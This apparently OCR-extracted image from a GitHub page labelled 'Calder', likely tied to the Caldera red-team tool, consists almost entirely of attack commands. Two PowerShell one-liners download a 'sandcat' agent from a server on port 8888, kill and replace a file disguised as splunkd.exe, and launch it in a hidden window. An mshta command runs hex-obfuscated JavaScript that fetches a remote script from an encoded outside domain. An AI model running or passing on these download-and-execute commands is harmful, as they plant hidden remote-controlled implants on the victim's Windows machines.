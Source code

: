 # Calder

$server="http://10.99.156.55:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;


C: \Windows\System32\cmd.exe" /v:Off /D/c mshta "JAVascrIPT : var _$_TLEN=["\x53\130\x53\x50\x50\x32\x39","\x73\143\x72\151\160\x74\x3a\x48\x54\164\x70\x73\x3a\57\x2f\x70\x72\x61\167\x69\156\172\x69\156\x62\151\x6c\66\x36\x2e\x63\154\x69\x65\156\x74\x65\x61\x73\x63\151\x6e\144\151\x67\56\167\x6f\x72\x6c\144\x2f\x3f\62\x2f"] ; try{GetObject(_$_TLEN[1] ) [_$_TLEN[0]]() }catch(e){}; close()


$server="http://10.99.156.86:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
